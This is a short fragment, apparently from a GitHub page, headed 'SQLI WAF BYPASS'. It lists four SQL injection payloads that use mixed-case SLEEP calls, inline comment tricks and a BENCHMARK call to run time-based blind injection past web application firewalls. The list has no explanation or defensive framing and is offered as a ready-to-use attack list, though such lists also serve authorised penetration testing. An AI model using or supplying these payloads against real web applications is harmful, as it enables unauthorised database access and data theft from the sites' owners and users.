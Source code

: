 # SQLI WAF BYPASS

\-slEEp(\"5A\");\-\-<br><br>
\-SleEP/\*(\*/(5);\-\-<br><br>
\-Benchmark/\*(\*/(10000000,rand())\-\-<br><br>
(1)and(sLeEp%20%20(5));<br><br>
